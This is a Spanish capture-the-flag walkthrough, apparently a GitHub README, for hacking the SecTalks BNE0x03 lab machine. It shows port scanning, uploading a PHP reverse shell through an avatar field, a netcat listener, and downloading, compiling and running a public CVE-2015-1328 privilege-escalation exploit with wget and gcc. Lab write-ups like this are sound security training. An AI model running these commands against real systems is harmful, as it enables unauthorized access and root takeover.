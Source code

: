 # HACKEO A MÁQUINA SECTALKS BNE0X03

En primer lugar, realizamos un escaneo de puertos con ayuda de la herramienta nmap a la ip víctima.

> nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn IP -oN escaneo

Abrimos el reporte con nano y observamos que el puerto 80 está abierto. Esto nos indica que nos encontramos ante un servidor web, además podemos ver la versión de Apache.

![paso1](https://github.com/Destri0/Ciberseguridad/assets/109970051/7536dd12-5e72-4f77-ba16-2cb7eaa6ed95)

Introducimos la ip víctima en nuestro buscador y vemos un panel de login.

![Paso2](https://github.com/Destri0/Ciberseguridad/assets/109970051/a5299879-49e6-4661-b822-3e42eb3e46a5)

En este caso, al existir un apartado de registro procedemos a nuestro registro en la web.

![Paso3](https://github.com/Destri0/Ciberseguridad/assets/109970051/d16234f4-c21e-46e8-b050-2ed37433cb93)

Una vez registrado buscaremos por toda la página un lugar donde se pueda subir un archivo.

![Paso4](https://github.com/Destri0/Ciberseguridad/assets/109970051/7fb0ae53-0fb7-4b44-bdfa-e734372a4e24)

Encontramos en el apartado de Personal options un lugar para subir nuestro avatar. Aprovecharemos eso para subir una reserve shell.
Antes utilizaremos la herramienta gobuster para ver los directorios que tiene la ip víctima donde se podría subir ese archivo.

> gobuster dir -u http://IP_VICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowecase-2.3-medium.txt

![Paso5](https://github.com/Destri0/Ciberseguridad/assets/109970051/00faa6fa-6e38-4742-9b6e-d48fbe463c95)

Una vez ejecutado el comando podremos observar que la ip víctima tiene un directorio de subidas. Ahí encontraremos nuestra reserve shell cuando la subamos.
Abrimos el directorio de /uploads en nuestro buscador.
Después utilizaremos la siguiente reverse shell.

> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

En ese archivo cambiaremos la ip y pondremos la ip desde donde estamos realizando el ataque y el puerto lo cambiaremos por el 433 que será nuestro puerto de escucha.
Una vez que tenemos el archivo editado lo subiremos al apartado de avatar y observaremos que si nos vamos a /uploads encontraremos el archivo subido.

![Paso6](https://github.com/Destri0/Ciberseguridad/assets/109970051/fba5ac03-3226-4713-b6a0-85afe5d474bf)

Ahora nos pondremos en escucha por el puerto 433 en nuestra consola con el siguiente comando.

> nc -nlvp 433

![Paso7](https://github.com/Destri0/Ciberseguridad/assets/109970051/4fd8dd9f-b57c-4484-a689-3d5dc8f4da13)

Una vez que nos encontramos en escucha por el puerto 433 de nuestra consola nos vamos al directorio de /uploads y pinchamos en nuestro archivo para que se ejecute.

![Paso8](https://github.com/Destri0/Ciberseguridad/assets/109970051/faccc3cb-ca42-4c82-8e54-4f2ababb4608)

Podemos ver en nuestra consola que tenemos acceso a la máquina víctima, pero no tenemos permisos de root.
En este caso ejecutamos el siguiente comando para ver en que version del sistema operativo nos encontramos.

> lsb_release -a

Vemos que nos encontramos en Ubuntu 14.04 y que es una version muy antigua de Ubuntu. Ejecutamos unas busquedas en internet sobre vulneravilidades de escalada de privilegios de la version y 14.04 de ubuntu.
Encontramos una vulneravilidad que es la CVE-2015-1328. Además encontramos un script en github que será el que utilicemos, que es el siguiente.

> https://github.com/DarkenCode/PoC/blob/master/CVE-2015-1328/CVE-2015-1328.c

Dentro de la máquina víctima nos colocaremos en el directorio de tmp.

> cd tmp

Después ejecutaremos el comando siguiente para descargar el archivo en nuestra máquina víctima.

> wget https://raw.githubusercontent.com/DarkenCode/PoC/master/CVE-2015-1328/CVE-2015-1328.c

Si ejecutamos el comando ls podemos observar que se ha descargado el archivo en nuestra máquina víctima.

![Paso9](https://github.com/Destri0/Ciberseguridad/assets/109970051/8972d014-f06b-41c8-ac85-db328b740480)

Tras eso ejecutaremos el siguiente comando para ejecutar el exploit.
> gcc CVE-2015-1328.c -o exploit && ./exploit

Tras eso sí ejecutamos el comando
> whoami

![Paso10](https://github.com/Destri0/Ciberseguridad/assets/109970051/8c1b4f7d-2718-406e-92d9-2f7040636281)

Podemos observar que hemos ganado acceso total a la máquina víctima como root.

Máquina vulnerada al completo.
